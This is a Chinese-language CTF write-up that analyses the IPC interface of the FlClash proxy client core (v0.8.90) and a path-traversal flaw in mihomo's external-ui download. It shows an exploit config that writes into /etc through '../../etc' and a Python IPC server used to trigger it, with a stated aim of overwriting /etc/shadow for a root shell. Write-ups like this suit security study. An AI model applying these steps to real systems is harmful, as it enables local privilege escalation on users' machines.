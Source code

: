 经过搜索，不难搜到这篇飞书云文档：[Clash Verge 客户端 1-Click RCE 漏洞](https://zyen84kyvn.feishu.cn/docx/PXu6dsXf0onNdRxs8LfceNXjncb)，其中给出了详细的分析和具体的利用方式。简而言之是调用未鉴权的本地 HTTP 服务设置 external-ui 相关配置，诱使 mihomo 核心下载受攻击者控制的压缩包并解压，然后 mihomo 核心在此过程中存在路径穿越漏洞，利用此漏洞即可做到任意路径写入，从而获得 mihomo 进程权限的任意代码执行。那么本题就需要寻找 IPC 通信中配置 mihomo 核心的方法。

阅读 FLClash 代码时发现，FLClashCore 的命令行参数 `argv[1]` 可以是一个端口号或者表示 unix domain socket 的路径，它会在启动时作为客户端连接到它（很奇怪的做法），并通过基于 json 的 IPC 与对方通信。（参考：[core/server.go#L42-L46](https://github.com/chen08209/FlClash/blob/v0.8.90/core/server.go#L42-L46)）它本质上是基于 mihomo 做了些许修改以及封装后的程序，把修改版的 mihomo 作为了一个 git submodule，因此阅读代码时经常需要在 [chen08209/FlClash/tree/v0.8.90/core](https://github.com/chen08209/FlClash/tree/v0.8.90/core) 和 [chen08209/Clash.Meta/@`168fc423`](https://github.com/chen08209/Clash.Meta/tree/168fc4232c86f80facbeef3e022db172b2f4da68) 之间反复横跳。

与之通信可以调用[许多函数](https://github.com/chen08209/FlClash/blob/v0.8.90/core/action.go#L39)，但这些代码没有文档也没有注释，命名和行为也十分混乱，读它们费了好一番功夫。谁能想到 initClashMethod 只是设置一个 home_dir 路径，其它什么都不做？（[core/hub.go#L47](https://github.com/chen08209/FlClash/blob/v0.8.90/core/hub.go#L47)）谁能想到 getConfigMethod 不是返回进程当前的配置状态，而是从指定路径读取一个配置文件并返回与默认配置合并后的结果？（[[1]](https://github.com/chen08209/FlClash/blob/v0.8.90/core/hub.go#L443), [[2]](https://github.com/chen08209/Clash.Meta/blob/168fc42/config/config.go#L584)）而 validateConfigMethod 做了几乎一样的事情还缺少一个错误处理？([core/hub.go#L93](https://github.com/chen08209/FlClash/blob/v0.8.90/core/hub.go#L93)) 还有看得人头晕的 getExternalProviderMethod 和 getExternalProvidersMethod，以及 updateExternalProviderMethod 和 sideLoadExternalProviderMethod。许多接口 json 里嵌套 json 字符串的做法也让人十分难绷。

经过一番寻找后，发现配置核心的方法是 setupConfigMethod，它会从之前设置的 home_dir 路径下读取 `config.json` 文件（[core/common.go#L266](https://github.com/chen08209/FlClash/blob/v0.8.90/core/common.go#L266)），然后调用 mihomo 的 [`config.ParseRawConfig`](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/config/config.go#L591) 函数来解析配置，并调用 mihomo 的 [`hub.ApplyConfig`](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/hub/hub.go#L43) 函数来应用配置，此函数中调用 [`executor.ApplyConfig`](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/hub/executor/executor.go#L85) 来完成绝大部分工作。

我们最关心的是 external-ui 的配置，上述文章已经给出了 mihomo 源码中的位置：位于 [component/updater/update_ui.go#L51-L72](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/component/updater/update_ui.go#L51-L72) 的 `NewUiUpdater` 函数。一路跟踪下来，是 `executor.ApplyConfig` 当中在[第 121 行](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/hub/executor/executor.go#L121)调用了 `updateUpdater` 函数来下载并解压 external-ui 文件，在其中就调用了上述 `NewUIUpdater`。

首先尝试按文章所述照猫画虎复现，既然是任意路径写，于是我计划覆盖 `/etc/shadow` 文件从而调用 su 获得 root shell。使用的配置为：

```json
{
    "external-ui": "foobar",
    "external-ui-url": "http://127.0.0.1:7777/payload.zip",
    "external-ui-name": "../../etc"
}
```

（其实还尝试过留空 `external-ui` 字段，结果怎么都不生效，让我一度怀疑误读了代码，又经过一番代码挖掘才发现如果字段留空的话，在 `NewUIUpdater` 函数里不会设置 `updater.autoDownloadUI = true`，导致根本不会触发文件下载。）

写一个简单的 TCP 服务器以供 FLClashCore 与之连接通信：

```python
HOMEDIR = "/tmp"
class MyTCPHandler(socketserver.StreamRequestHandler):
    def _send_command(self, method, data=None):
        self.wfile.write(json.dumps({"method": method, "data": data}).encode())
        self.wfile.write(b"\n")
        self.wfile.flush()
        print(self.rfile.readline())

    def handle(self):
        self._send_command("initClash", json.dumps({"home-dir": HOMEDIR}))
        self._send_command("setupConfig", "{}")
        print(self.rfile.readline())
        time.sleep(1)
```
